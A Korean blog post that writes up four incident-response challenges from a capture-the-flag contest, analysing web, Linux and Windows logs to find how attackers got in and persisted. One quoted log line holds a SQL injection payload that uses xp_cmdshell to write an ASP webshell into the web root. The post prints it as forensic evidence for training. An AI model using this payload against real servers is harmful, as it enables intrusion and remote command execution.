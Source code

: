 ![](https://blogfiles.pstatic.net/MjAyNDEwMDhfODkg/MDAxNzI4Mzk3MDQ4NDc1.8hTq1C2ic4JcCBrTDs8ipbWw-cKh4pz5QCWLh04emy8g.z2j8Y5P2SNLngciCif7U2su0K3Zh898Ym3KJHVYqmJog.PNG/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7_2024-10-08_213751.png?type=w1)

침해사고 분석은 처음 해봤는데 굉장히 재밌었다.

---

# AH-ING-PING

```
최근 회사의 웹 서버에서 비정상적인 활동이 감지되었습니다. 초기 조사 결과:

1. 웹 서버에 웹쉘이 업로드된 흔적이 발견되었습니다.

2. 공격자는 SQL 인젝션 취약점을 악용한 것으로 추정됩니다.

3. 해당 서버에는 IIS와 MS-SQL이 함께 운영 중입니다. 웹 로그를 분석하여 웹쉘 업로드 원인을 파악하고 플래그 값을 입력하세요.
```

주어지는 코드가 굉장히 긴데, 웹쉘을 업로드했다고 하길래 shell이라는 키워드로 로그를 찾아봤다. 총 6개의 로그가 뜨며 모두 공격 로그였다.

```bash
2024-01-08 02:51:07 10.10.103.133 GET /cart/cart_goods_search.asp order=1&searchNAME=aaaaa%27%29%3BEXEC%20master..xp_cmdshell%20%27echo%20%22%3C%25eval%20request%28%22abcdef%22%29%25%3E%3C%21%2D%2DfXlwcDRoUkNfM2h0XzJfM20wY2xsM1d7Tk9DQ0VMRQ%3D%3D%2D%2D%3E%22%3EE%3A%5CwebROOT%5CCRhappy20%5C1.asp%27-- 443 - sqlmap/1.2.10.42#dev+(http://sqlmap.org) - 200 0 0 319
```

이게 마지막 줄이고, echo나 eval이 있는 것을 보아 flag를 출력한 듯 보였다. 뒤에 base64 인코딩처럼 생긴게 있어서 디코딩해본 결과 플래그를 뒤집어 놓은 것이었고 그렇게 플래그가 도출되었다.

---

AJ-A-PING

서버에서 주기적으로 외부에 패킷을 보내고 있다는 연락을 관제팀으로부터 전달받았다. 시스템 로그를 분석하여 주기적으로 패킷을 발생시키는 파일을 확인하고 원인이 된 계정을 파악하세요.

문제가 어려워서 힌트가 꽤 나왔는데, 공격자 계정 생성 시간이 새벽 1시 20분이라는 것이 나에게 큰 힌트가 되었다.

로그를 몇 개 살펴보자면,

계정 생성 로그

```javascript
Sep 25 01:20:00 ubuntu accounts-daemon[680]: Could not talk to message bus to find uid of sender :1.178: GDBus.Error:org.freedesktop.DBus.Error.NameHasNoOw>
Sep 25 01:20:00 ubuntu accounts-daemon[680]: Could not talk to message bus to find uid of sender :1.178: GDBus.Error:org.freedesktop.DBus.Error.NameHasNoOw>
Sep 25 01:20:00 ubuntu accounts-daemon[680]: request by system-bus-name::1.178: create user 'curer'
Sep 25 01:20:00 ubuntu accounts-daemon[680]: Could not talk to message bus to find uid of sender :1.178: GDBus.Error:org.freedesktop.DBus.Error.NameHasNoOw>
Sep 25 01:20:00 ubuntu accounts-daemon[680]: Could not talk to message bus to find uid of sender :1.178: GDBus.Error:org.freedesktop.DBus.Error.NameHasNoOw>
Sep 25 01:20:01 ubuntu groupadd[5506]: group added to /etc/group: name=curer, GID=1003
```

sudo 로그, 여기서부터 의심할 수 있다.

```javascript
Sep 25 01:20:01 ubuntu accounts-daemon[5574]: Adding user `curer' to group `sudo' ...
Sep 25 01:20:01 ubuntu accounts-daemon[5611]: Adding user curer to group sudo
Sep 25 01:20:01 ubuntu gpasswd[5611]: user curer added by root to group sudo
```

프로그램 실행 로그

```javascript
Sep 25 01:26:48 ubuntu sudo[6281]:    curer : TTY=pts/1 ; PWD=/home/curer ; USER=root ; COMMAND=/usr/bin/su
Sep 25 01:26:48 ubuntu sudo[6281]: pam_unix(sudo:session): session opened for user root by curer(uid=0)
Sep 25 01:26:48 ubuntu su[6282]: (to root) curer on pts/1
Sep 25 01:26:48 ubuntu su[6282]: pam_unix(su:session): session opened for user root by curer(uid=0)
Sep 25 01:30:01 ubuntu CRON[6310]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 25 01:30:01 ubuntu CRON[6311]: (root) CMD (bash ~/.../apache.sh)
Sep 25 01:30:59 ubuntu sshd[6319]: Accepted password for ubuntu from 121.165.167.193 port 64488 ssh2
```

curer가 root 권한을 가진 점이 의심스럽고, 그리고 그 권한으로 .../apache.sh라는 파일을 실행시킨 점에서 이 파일이 공격파일임을 유추할 수 있다. 왜냐하면 .으로 시작하는 파일은 ls에는 보이지 않기 때문에 관리자가 쉽게 눈치채지 못하기 떄문이다. root로 파일을 실행시키는 점에서 파일의 절대 경로는 /root/.../apache.sh라는 것을 알 수 있다.

---

CAN-DI-PING

문제를 아무데도 쓰지 않았다..

웹 통신 로그를 이용해서 공격자가 어떤 CVE를 이용한 공격을 했는지 맞추시오. 이런 문제였다.

힌트

문제가 발생되고 있는 HOST의 IP는 192.168.11.57로 확인되고 HTTP 프로토콜 패킷이 해당 IP로 들어오는 것이 확인됩니다. 추가적으로 HTTP헤더의 Accept-Encoding 값이 조작되어 들어오는 패킷이 있다고 관제팀으로 연락받았습니다.

문제를 볼 때는 알지 못했고 힌트를 받고 그대로 검색하니 나왔다. 이런 건 힌트 없이 어떻게 푸는거지..

---

GGA-Rr-PING

해당 PC 내에서 WinRAR를 통해 특정 악성 파일이 실행되어 권한상승을 진행한 후 외부 통신이 진행된 것으로 판단이 됩니다. 공격자의 서버와 이 PC가 연결된 후 공격자는 두 가지 행위를 등록합니다. 해당 두 가지 행위를 파악하여 등록된 이름을 각각 시간 순서대로 기입하세요.

힌트

해당 악성 실행파일은 권한상승 이후 2가지의 서비스를 등록합니다. 두 서비스를 찾아 등록된 이름을 각각 시간 순서대로 적으세요. 처음 사용된 바이너리) 권한상승을 위해 정상 프로그램인 ComputerDefaults.exe 를 이용합니다.

등록한 서비스는 각각 작업 스케쥴러(3시 50분경) 및 방화벽 규칙(4시경) 입니다.

이 문제도 힌트가 어느 정도 나온 이후에 접근해서 굉장히 쉽게 느껴졌다.

![](https://blogfiles.pstatic.net/MjAyNDEwMDlfMTE2/MDAxNzI4NDAxMDkwMjkz.KY3uwNdD28rjoFnZIh_q6xs-soZPTUqGkjm3m9K5NT4g.C9knldp9YCiCw5aYgqA9_Ldf9AtIeTn51yfZ3aUh3Dog.PNG/image.png?type=w1)

대표사진 삭제

사진 설명을 입력하세요.

방화벽 규칙 확인을 위해 Defender log랑 Firewall log를 찾아봤다. Firewall log에서 smvic.exe가 규칙을 추가하는 것을 관찰했고, 누가봐도 공격 프로그램이 규칙을 넣은 것을 알 수 있다. 문제가 규칙 이름을 요구했으므로 cnct를 찾아내면 된다.

![](https://blogfiles.pstatic.net/MjAyNDEwMDlfMjA5/MDAxNzI4NDAxMjIxODc1.hHofnGRUOlkV5ZpX5AFFgOmSQRDBB66QTqQiNN5bel8g.lC0zJoFCUiZhHeJF3J4jx9_sgXJAr4m6LSO-HUWQaiMg.PNG/image.png?type=w1)

대표사진 삭제

사진 설명을 입력하세요.

TaskScheduler에는 직관적으로 보이진 않지만, 수많은 업데이트와 인스턴스 실행 로그 사이에 작업 등록 로그가 있는 것을 확인할 수 있었다. 이름이 avupdate라는 것을 찾아내면 된다.

---

팀원이 집 사정이 갑자기 생기는 바람에 솔플을 했는데, 생각보다 나쁘지 않은 결과가 나왔다고 생각한다. 물론 포너블을 못 건들이고 리버싱도 쉬운 문제처럼 보였는데(근데 전체 0솔이다;;) 못 풀었다는 것은 아쉽다. arm64랑 QEMU를 빨리 공부해야겠다고 계속 느낀다.

본선이 수능날이어서 참여하지 못하는 것은 아쉽다고 생각했는데 전화가 안 왔다. 침해사고 4솔인데 본선 진출이 아니라고??? 참 의문점이 많은 대회이다..